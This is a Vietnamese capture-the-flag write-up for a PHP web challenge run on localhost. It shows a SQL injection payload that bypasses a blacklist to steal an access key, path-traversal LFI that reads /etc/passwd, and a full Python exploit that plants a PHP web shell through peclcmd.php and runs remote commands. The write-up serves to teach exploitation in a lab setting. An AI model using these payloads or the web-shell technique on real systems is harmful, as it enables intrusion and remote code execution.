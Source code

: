 # Write-up GIFT

### Tổng quan

- Tổng quan trang web có 1 trang đăng nhập và trong mã html có 1 đoạn comment chỉ dẫn truy cập 1 endpoint khác là send_pic.php.

![Untitled](Write-up/Untitled.png)

![Untitled](Write-up/Untitled%201.png)

![Untitled](Write-up/Untitled%202.png)

- Đọc src code thì trang web sẽ xử lý logic như sau:
    - login.php: lấy giá trị người dùng nhập vào trường `access_key` rồi so sánh với giá trị trong cột `key_cc` nếu bằng nhau thì sẽ đăng nhập thành công.
    
    ![Untitled](Write-up/Untitled%203.png)
    
    - send_pic.php: kiểm tra 2 biến `$_POST['url']` và `$_POST['id']` nếu tồn tại thì sẽ được truyền vào hàm `filter()` và `get_picture()` để xử lý. Nếu kiểm tra hợp lệ thì sẽ gửi request tới url mà người dùng nhập vào.
    
    ![Untitled](Write-up/Untitled%204.png)
    
    - Hàm `filter()`: kiểm tra url có thuộc các IP internal không nếu phải thì sẽ trả về false.
    
    ![Untitled](Write-up/Untitled%205.png)
    
    - Hàm `get_picture()`: sẽ thực hiện truy vấn db lấy giá trị từ cột `pictures` thông qua `id`. Ở đây câu sql đang thực hiện nối chuỗi untrusted data nên ta sẽ khai thác sql injection ở đây, tuy nhiên `id` không được có các ký tự trong mảng `$black_lists`.
    
    ![Untitled](Write-up/Untitled%206.png)
    

### Khai thác

- Mục tiêu ở đây là lấy được `access_key` ở endpoint send_pic.php rồi dùng `access_key` đó đăng nhập ở login.php. Câu sql ở login.php là `$sql = 'select key_cc from access_key';` cho nên ở send_pic.php mình cũng sẽ thực hiện chèn làm sao để lấy được `key_cc`. Tuy nhiên `key_cc` cũng nằm trong `$black_list` cho nên ta có thể bypass bằng cách viết hoa vài ký tự. VD: key_cC
- Payload sẽ như sau: `url=attack.com&id=0+union+select+key_cC+from+access_key--+`

![Untitled](Write-up/Untitled%207.png)

![Untitled](Write-up/Untitled%208.png)

- Sau khi có được key thì mình thực hiện đăng nhập, do là logic trang web chỉ kiểm tra trường `access_key` nên `username` và `password` mình sẽ nhập bừa.

![Đăng nhập thành công thì trang web sẽ redirect sang index.php](Write-up/Untitled%209.png)

Đăng nhập thành công thì trang web sẽ redirect sang index.php

- Sau khi đăng nhập thành công thì quan sát thấy có 1 endpoint là `/get_img.php?file=messi.jpg` dùng để lấy hình ảnh thông qua param get `file`. Đầu tiên mình thử đọc file `/etc/passwd` thì thấy đọc thành công.

![Untitled](Write-up/Untitled%2010.png)

![Untitled](Write-up/Untitled%2011.png)

- Tuy nhiên mục tiêu của bài này là đọc được flag ở thư mục /, nhưng mình không biết tên file flag. Đọc src code thì thấy trang web chặn không cho truy cập đến `pearcmd.php` - đây là 1 công cụ quản lý extension bằng cmd. Nhưng ngoài file `pearcmd.php` này thì cũng có file `peclcmd.php` có chức năng tương tự. 2 file này sẽ nhận tham số từ command promt rồi thực thi ghi file, tải package,…
- Ngoài trang trong src code còn chặn `../..` để không bị path traversal nhưng ta có thể bypass bằng `.././../`. Sau khi tất cả các bước kiểm tra thực hiện xong thì giá trị param file này sẽ nối chuỗi thành 1 đường dẫn file rồi rơi vào hàm `include()`

⇒ Vậy thì các bước khai thác sẽ như sau đầu tiên ta ghi 1 file php thông qua file `peclcmd.php`, sau đó thì thực hiện LFI file php đó để RCE rồi đọc file flag. Code exploit sẽ như sau:

```python
import requests
import os

url = "http://localhost:2222/login.php"
r = requests.get(url)
cookie = r.cookies.get_dict()
cookie_value = cookie['PHPSESSID']
curl_cmd = "curl -b 'PHPSESSID=" + cookie_value + "' 'http://localhost:2222/get_img.php/?+config-create+/&file=.././.././.././.././.././.././.././.././usr/local/lib/./php/peclcmd.php&<?=`$_GET[1]`?>+/tmp/exploit.php'"

data = {"username": "test", "password": "test", "asscess_key": "messi_is_goat", "submit": ''}
r = requests.post(url, cookies=cookie, data=data)

os.system(curl_cmd)

while True:
    command = input("Command: ")
    url_exploit = "http://localhost:2222/get_img.php?file=.././.././.././.././.././tmp/exploit.php&1={}".format(command)
    r = requests.get(url_exploit ,cookies=cookie)
    print(r.text.split("php&")[1].split("/pear/php")[0])
```

![Untitled](Write-up/Untitled%2012.png)

[https://github.com/w181496/Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)